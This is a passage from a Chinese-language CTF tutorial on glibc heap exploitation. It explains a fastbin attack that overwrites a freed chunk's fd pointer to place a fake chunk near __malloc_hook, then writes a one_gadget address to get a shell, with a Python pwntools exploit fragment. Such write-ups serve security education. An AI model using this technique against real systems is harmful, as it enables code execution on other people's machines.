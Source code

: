 #### 分配chunk到malloc_hook附近

由於 malloc hook 附近的 chunk 大小爲 0x7f，所以數據區域爲0x60。這裏我們再次申請的時候，對應 fastbin 鏈表中沒有相應大小chunk，所以根據堆分配器規則，它會依次處理unsorted bin中的chunk，將其放入到對應的bin中，之後會再次嘗試分配 chunk，因爲之前釋放的 chunk 比當前申請的 chunk 大，所以可以從其前面分割出來一塊。所以 idx2 仍然指向該位置，那麼我們可以使用類似的辦法先釋放申請到的chunk，然後再次修改 fd 指針爲 fake chunk 即可。此後我們修改 malloc_hook 處的指針即可得到觸發 onegadget。

```Python
# 2. malloc to malloc_hook nearby
# allocate a 0x70 size chunk same with malloc hook nearby chunk, idx4
allocate(0x60)
free(4)
# edit idx4's fd point to fake chunk
fake_chunk_addr = main_arena - 0x33
fake_chunk = p64(fake_chunk_addr)
fill(2, len(fake_chunk), fake_chunk)

allocate(0x60)  # idx 4
allocate(0x60)  # idx 6

one_gadget_addr = libc_base + 0x4526a
payload = 0x13 * 'a' + p64(one_gadget_addr)
fill(6, len(payload), payload)
# trigger malloc_hook
allocate(0x100)
p.interactive()
```
同時，這裏的 onegadget 地址也可能需要嘗試多次。

## 題目

- L-CTF2016–pwn200

## 參考文獻

- https://www.gulshansingh.com/posts/9447-ctf-2015-search-engine-writeup/
- http://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html
- https://www.slideshare.net/YOKARO-MON/oreo-hacklu-ctf-2014-65771717

